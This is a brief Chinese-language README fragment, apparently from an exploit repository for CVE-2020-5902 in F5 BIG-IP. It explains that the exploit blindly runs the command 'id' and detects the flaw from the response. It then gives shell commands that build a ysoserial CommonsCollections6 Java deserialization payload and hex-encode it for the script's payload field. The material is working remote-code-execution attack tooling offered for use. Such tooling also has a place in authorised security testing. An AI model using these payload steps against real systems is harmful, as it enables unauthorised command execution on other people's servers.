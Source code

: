 原理同 [https://github.com/Critical-Start/Team-Ares/blob/master/CVE-2020-5902/CVE-2020-5902.sh](https://github.com/Critical-Start/Team-Ares/blob/master/CVE-2020-5902/CVE-2020-5902.sh)  
默认执行命令id，无回显，根据返回数据包特征判断漏洞。  

可以通过下列命令生成payload，替换脚本中的payload字段
```
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections6 "id" > nc.class
xxd -p nc.class | xargs | sed -e 's/ //g' | dd conv=ucase 2>/dev/null > payload.hex
```